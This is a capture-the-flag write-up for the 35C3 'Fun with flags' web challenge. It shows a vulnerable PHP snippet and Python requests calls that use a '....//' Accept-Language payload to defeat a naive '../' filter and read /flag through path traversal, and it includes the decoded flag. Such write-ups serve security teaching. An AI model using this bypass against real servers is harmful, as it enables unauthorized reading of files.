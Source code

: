 # challenge

> Fun with flags: http://35.207.169.47
>
> Flag is at /flag
>
> Difficulty estimate: Easy

On the website a page gets rendered (I'm not reproducing the rendering here) that **displays**

```
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';


Warning: file_get_contents(flags/de-DE): failed to open stream: No such file or directory in /var/www/html/index.php on line 6
```

(and an image below).

This can be read. And we notice that we can manipulate the page by asking the
server for a different language over http headers.

## Stabs

```py
import requests
url = "http://35.207.169.47/
requests.get(url, headers={"Accept-Language": "us"}).content
```

Like this we get a new html page dumped to the command line and can look around in it.

Looking at the php, we cannot just ask for `Accept-Language=../flag`, that will
be filtered out, and likewise `../../` (php filters all matches, not just the
first). However, we can golf a language that - after replacement - yields `../`:

```
requests.get(url, headers={"Accept-Language": "....//flag"}).content
```

looks almost good, except the response says
```
<br />\n<b>Warning</b>:  file_get_contents(flags/../flag): failed to open stream: No such file or directory in <b>/var/www/html/index.php</b> on line <b>6</b><br />
```
I.e. we aren't in `/` and I have no idea how to tell where we are, so … brute force iterating until

```
>>> requests.get(url, headers={"Accept-Language": "....//....//....//....//....//....//flag"}).content
b'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php<br />&nbsp;&nbsp;highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />&nbsp;&nbsp;</span><span style="color: #0000BB">$lang&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_SERVER</span><span style="color: #007700">[</span><span style="color: #DD0000">\'HTTP_ACCEPT_LANGUAGE\'</span><span style="color: #007700">]&nbsp;??&nbsp;</span><span style="color: #DD0000">\'ot\'</span><span style="color: #007700">;<br />&nbsp;&nbsp;</span><span style="color: #0000BB">$lang&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">explode</span><span style="color: #007700">(</span><span style="color: #DD0000">\',\'</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$lang</span><span style="color: #007700">)[</span><span style="color: #0000BB">0</span><span style="color: #007700">];<br />&nbsp;&nbsp;</span><span style="color: #0000BB">$lang&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">str_replace</span><span style="color: #007700">(</span><span style="color: #DD0000">\'../\'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">\'\'</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$lang</span><span style="color: #007700">);<br />&nbsp;&nbsp;</span><span style="color: #0000BB">$c&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">file_get_contents</span><span style="color: #007700">(</span><span style="color: #DD0000">"flags/</span><span style="color: #0000BB">$lang</span><span style="color: #DD0000">"</span><span style="color: #007700">);<br />&nbsp;&nbsp;if&nbsp;(!</span><span style="color: #0000BB">$c</span><span style="color: #007700">)&nbsp;</span><span style="color: #0000BB">$c&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">file_get_contents</span><span style="color: #007700">(</span><span style="color: #DD0000">"flags/ot"</span><span style="color: #007700">);<br />&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">\'&lt;img&nbsp;src="data:image/jpeg;base64,\'&nbsp;</span><span style="color: #007700">.&nbsp;</span><span style="color: #0000BB">base64_encode</span><span style="color: #007700">(</span><span style="color: #0000BB">$c</span><span style="color: #007700">)&nbsp;.&nbsp;</span><span style="color: #DD0000">\'"&gt;\'</span><span style="color: #007700">;<br /><br /></span>\n</span>\n</code><img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">'
```

So the flag is base 64 encoded `MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=` which decodes:

```py
>>> import base64
>>> base64.decodebytes(b"MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=")
b'35c3_this_flag_is_the_be5t_fl4g\n'
```

[![Creative Commons License](https://i.creativecommons.org/l/by-sa/4.0/80x15.png) This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-sa/4.0/)]

